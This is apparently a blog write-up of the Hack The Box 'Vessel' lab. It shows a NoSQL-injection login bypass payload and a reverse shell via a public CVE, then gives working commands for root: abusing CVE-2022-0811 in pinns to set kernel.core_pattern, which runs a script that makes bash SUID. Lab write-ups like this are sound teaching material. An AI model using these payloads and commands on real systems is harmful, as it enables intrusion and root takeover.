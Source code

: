 ```yaml
---
title: "Hack The Box - Vessel [Hard]"
date: 2023-02-12T10:42:27+03:00
draft: false
description: 
---
```


# Overview

Since it becomes very time consuming doing this in a video this write-up is going to be in a text.

The machine is labeled hard with a good reason, most of the tasks are time consuming but there are some interesting vulnerabilities like [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) and [CVE-2022-24637](https://www.exploit-db.com/exploits/51026).

On top of these we have [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and some PE reverse engineering.

# Write-up

### Flag 1

First I began enumerating the whole website with `ffuf`.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u "http://vessel.htb/FUZZ" -fs 26
```

With that I discovered a folder called `dev` which then led me to dumping the git repository of the website:

```
$ git-dumper http://vessel.htb/dev/.git ./website_dump
```

With the website avaliable, I can check the actual source code for vulnerabilities, immediately after opening the `routes/index.js` I have noticed that this code might be vulnerable to NoSQL Injection.

```javascript
...
let username = req.body.username;
let password = req.body.password;
if (username && password) {
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) { ...
```

The code doesn't check if the passed values if they are objects, I can use a crafted NoSQL payload to successfully login 
with the admin user using this payload while doing the POST request:

```
username=admin&password[password]=1
```

Upon another discovery in the admin panel, I found that there is another domain on the host called `openwebanalytics`. From further investigation over what can be exploted there I have landed on [CVE-2022-24637](https://www.exploit-db.com/exploits/51026). With that exploit I could run a successful reverse shell on the machine. 

Using [linpeas](https://github.com/carlospolop/PEASS-ng) I found some useful information over the user `steven`

```
/home/steven/passwordGenerator # Windows PE Exectuable
/home/steven/.notes/screenshot.png # Screenshot of some program
/home/steven/.notes/notes.pdf # Password protected PDF
```

I suspected that the `screenshot.png` is am image of the `passwordGenerator`.On the other hand the `passwordGenerator` was unusually big and the whole use of that binary is to create 'secure' passwords. I noticed the python icon on the binary and I suspected that this could be a packed python project with `PyInstaller`. I confirmed that when I loaded the whole thing in Ghidra/IDA.

I have used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the `*.pyc` files, and then the [uncomplyle6](https://pypi.org/project/uncompyle6/) to decompile the `*.pyc` files. Which has led me to the actual source code of the binary:

This is the function that generates the password:

```python
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
        else:
            if char == 1:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
            else:
                if char == 2:
                    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
                else:
                    try:
                        qsrand(QTime.currentTime().msec())
                        password = ''
                        for i in range(length):
                            idx = qrand() % len(charset)
                            nchar = charset[idx]
                            password += str(nchar)

                    except:
                        msg = QMessageBox()
                        msg.setWindowTitle('Error')
                        msg.setText('Error while generating password!, Send a message to the Author!')
                        x = msg.exec_()

                return password
```

I edited the `length` to 32 (as I have it on the screenshot) and edited the script a bit more to create a list out of possible passwords. I can do that because the `QTime.currentTime().msec()` function returns the numbers from 1-1000 with that range I have a big chance of guessing the generated password.

> **Note**: This process can be a bit frustrating since it takes time to generate the passwords. I personally spent little over an hour.

Then I used `pdfcrack` to crack the password of the PDF, there I found the password for the user `ethan` and I successfully logged in with it and I found the first flag.

### Flag 2

I ran `linpeas.sh` again, and I found the following `SUID` binary:

```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root ethan 814936 Mar 15  2022 /usr/bin/pinns    
...
```

I searched around a bit what is this, and I landed on the [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) which exploited this binary. While doing this, I noticed that I also have the `runc`. 

```                                                                                               
╔══════════╣ Container related tools present
/usr/sbin/runc       
```

This was a very tricky one, and it needs some understanding of what's going on to successfully execute the attack. You can check out the link I've provided for [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) to understand more about it. On the actual POC they have used Kubernetes, on our end I had to use  `runc`.

The parameters that are being passed to `pinns` are not being sanitized and validated, so I can use that to execute code with root access.

I needed to create a container using the `runc` without using `root` so I've used the `--rootless` arg.

Reference: https://github.com/opencontainers/runc/#rootless-containers

```
$ mkdir /tmp/syl
$ cd /tmp/syl/
$ runc spec --rootless
$ mkdir rootfs
$ echo "chmod +s /usr/bin/bash" > syl.sh
```

Then I should mount the root to the root of the container:

Reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation

```
$ runc --root /tmp/syl/ run alpine
# cat /etc/machine-id
c4ca4238a0b923820dcc509a6f75849b
```

This will run the container and spawn a shell. Next I would ssh into the machine from another session to execute the `pinns` binary to our container. 

```
$ /usr/bin/pinns -d /var/run -f c4ca4238a0b923820dcc509a6f75849b -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/syl/syl.sh #' --ipc --net --uts --cgroup
```

Then I need to trigger a core dump so that the `pinns` would execute the script in a case of a core dump. Following the PoC in crowdstrike:

```
# ulimit -c unlimited
# ulimit -c
unlimited
# tail -f /dev/null &
# ps
.. Find the `tail -f /dev/null` PID
# kill -SIGSEGV {thePID}
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

Back to the other session

```
$ bash -p
$ cat /root/root.txt
{HASH}
```
